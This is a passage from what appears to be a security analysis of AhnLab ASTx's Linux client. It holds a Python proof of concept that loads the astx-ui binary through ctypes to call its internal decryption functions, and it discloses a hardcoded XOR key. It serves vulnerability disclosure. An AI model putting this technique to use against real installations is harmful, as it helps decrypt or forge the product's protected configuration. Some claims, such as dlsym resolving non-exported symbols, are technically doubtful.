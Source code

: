 ### Attack Surface
1. **XOR Decryption**: Trivially reversible
2. **IPC Messages**: Qt signal/slot potentially exploitable
3. **Process Monitoring**: Can be evaded or spoofed
4. **Debug Logs**: May leak sensitive information
5. **Unstripped Symbols**: Complete roadmap for attackers

### Binary-as-a-Library Exploit

The unstripped symbols enable a critical exploitation technique - using the astx-ui binary itself as a crypto library. Even with PIE/ASLR enabled, the symbol table allows runtime resolution of function addresses:

```python
#!/usr/bin/env python3
# Use ASTx's own crypto against itself

import ctypes

class ASTxCrypto:
    def __init__(self):
        # Load the binary as a library - symbols enable this!
        self.lib = ctypes.CDLL("/opt/AhnLab/ASTx/astx-ui")
        
        # Symbol table lets us call non-exported functions by name
        self.xor_decrypt = self.lib.XorDecryption
        self.aes_decrypt = self.lib.Aes128Decrypt
        
    def decrypt_with_their_key(self, data):
        # Use their hardcoded XOR key
        self.lib.XorDecryption(data, len(data), b"KEY2ENCRYPT&DECRYPT")
        return data
        
    def decrypt_aes(self, encrypted):
        # Use their AES with their key derivation
        result = ctypes.create_string_buffer(len(encrypted))
        self.lib.Aes128Decrypt(encrypted, result, len(encrypted))
        return result.raw

# Decrypt their files using their own crypto functions!
crypto = ASTxCrypto()
```

**Why This Works**:
- Symbols act as a function directory inside the binary
- Dynamic loader resolves addresses even with PIE/ASLR
- Non-exported functions become callable through `dlsym()` or ctypes
- The binary essentially becomes a free crypto API for attackers

**Security Impact**:
- PIE/ASLR protection completely bypassed for named functions
- Attackers can use ASTx's own encryption to forge valid configs
- Perfect knowledge of crypto implementation without RE
- Can call internal functions that were never meant to be exposed
